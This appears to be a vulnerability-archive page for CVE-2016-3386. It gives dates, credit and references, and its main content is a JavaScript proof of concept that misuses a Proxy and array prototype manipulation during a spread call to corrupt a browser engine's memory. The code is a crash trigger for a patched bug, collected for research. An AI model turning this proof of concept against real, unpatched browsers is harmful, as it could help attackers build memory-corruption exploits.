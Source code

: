 # CVE-2016-3386

- Report: July 2016
- Fix: Oct 2016
- Credit: Richard Zhu

## PoC

- PoC by Natalie Silvanovich, Google Project Zero

```javascript
var y = 0;
var t = [1,2,3];
var t2 = [4,4,4];
var mp = new Proxy(t2, {
  get: function (oTarget, sKey) {
    var a = [1,2];
    a.reverse();
    //alert("get " + sKey.toString());
    //alert(oTarget.toString());
    y = y + 1;
    if(y == 2){
        var temp = [];
        oTarget.__proto__ = temp.__proto__;
	t.length = 10000;
        temp.fill.call(t, 7, 0, 1000);
        return 5;
    }
    return oTarget[sKey] || oTarget.getItem(sKey) || undefined;
  },
  set: function (oTarget, sKey, vValue) {
    //alert("set " + sKey);
    if (sKey in oTarget) { return false; }
    return oTarget.setItem(sKey, vValue);
  },
  deleteProperty: function (oTarget, sKey) {
    //alert("delete");
    if (sKey in oTarget) { return false; }
    return oTarget.removeItem(sKey);
  },
  enumerate: function (oTarget, sKey) {
    //alert("enum");
    return oTarget.keys();
  },
  ownKeys: function (oTarget, sKey) {
    //alert("ok");
    return oTarget.keys();
  },
  has: function (oTarget, sKey) {
    //alert("has" + sKey);
    return true;
  },
  defineProperty: function (oTarget, sKey, oDesc) {
    //alert("dp");
    if (oDesc && "value" in oDesc) { oTarget.setItem(sKey, oDesc.value); }
    return oTarget;
  },
  getOwnPropertyDescriptor: function (oTarget, sKey) {
    //alert("fopd");
    var vValue = oTarget.getItem(sKey);
    return vValue ? {
      value: vValue,
      writable: true,
      enumerable: true,
      configurable: false
    } : undefined;
  },
});

function f(a){

	//alert(a);
}

var q = f;

t.length = 4;
var o = {};
  Object.defineProperty(o, '3', {
    get: function() {
      //alert('get!');
      return temperature;
    }
  });

t.__proto__ = mp;
//t.__proto__.__proto__ = o;

q(...t);
```

## Reference

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-535/)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=910)
